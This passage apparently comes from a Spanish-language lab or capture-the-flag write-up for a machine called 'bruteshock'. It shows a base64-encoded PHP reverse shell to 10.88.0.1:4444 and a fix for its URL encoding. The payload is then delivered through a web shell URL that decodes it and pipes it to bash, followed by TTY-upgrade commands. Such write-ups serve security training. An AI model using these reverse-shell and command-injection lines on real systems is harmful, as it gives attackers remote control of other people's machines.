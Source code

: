 `Antes`

~~~ bash
cGhwIC1yICckc29jaz1mc29ja29wZW4oIjEwLjg4LjAuMSIsNDQ0NCk7ZXhlYygiL2Jpbi9iYXNoIDwmMyA+JjMgMj4mMyIpOyc=
~~~

![Pasted image 20241105234140](https://github.com/user-attachments/assets/4833040d-baf7-46ba-b838-a2d998d6974e)


`Después`

~~~ bash
cGhwIC1yICckc29jaz1mc29ja29wZW4oIjEwLjg4LjAuMSIsNDQ0NCk7ZXhlYygiL2Jpbi9iYXNoIDwmMyA%2BJjMgMj4mMyIpOyc=
~~~

![Pasted image 20241105234108](https://github.com/user-attachments/assets/d27210d5-1302-43ae-8971-9e7a5e79a69e)

Ahora con este pequeño cambio deberíamos poder establecer una `shell` sin problemas

~~~ bash
http://bruteshock.local/pruebasUltraSecretas/exec.php?cmd=echo%20%22cGhwIC1yICckc29jaz1mc29ja29wZW4oIjEwLjg4LjAuMSIsNDQ0NCk7ZXhlYygiL2Jpbi9iYXNoIDwmMyA%2BJjMgMj4mMyIpOyc=%22%20|%20base64%20-d%20|%20bash
~~~

![Pasted image 20241105234657](https://github.com/user-attachments/assets/7613cabc-83a4-4f7a-a84d-1770fdfb053f)


# Escalada de privilegios
---
## Tratamiento TTY

Haremos el típico tratamiento de la TTY para operar de una forma más cómoda y poder hacer `Ctrl + C` y `Ctrl + L`

~~~ bash
export TERM=xterm
export SHELL=/bin/bash
script /dev/null -c bash
^Z

stty raw -echo;fg
reset xterm
~~~

![Pasted image 20241105233905](https://github.com/user-attachments/assets/d8cb47f9-d305-4e45-9d86-859be04fe46a)

Finalmente ajustamos las proporciones al tamaño de la terminal para poder tener una visualización más cómoda

~~~ bash
stty rows 44 columns 189
~~~
